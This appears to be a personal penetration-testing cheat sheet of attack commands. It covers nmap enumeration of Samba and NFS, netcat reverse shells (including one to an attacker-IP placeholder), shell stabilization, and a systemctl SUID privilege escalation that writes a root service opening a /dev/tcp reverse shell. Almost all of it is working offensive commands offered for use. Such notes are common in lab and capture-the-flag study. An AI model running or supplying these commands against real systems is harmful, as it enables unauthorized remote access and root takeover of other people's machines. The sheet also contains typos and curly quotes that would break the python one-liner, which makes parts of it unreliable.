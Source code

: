 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```


## Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```


## Upgrading/Stablizing Shells:

+ <b>Using Ptyhon</b>

*Upgrading:*
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```
$^Z
$stty raw -echo; fg
(ENTER)
```


## Privilege Escalation:
+ <b>`Check for processes runnign as root` SUID</b>
```
ps -aux | grep root
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
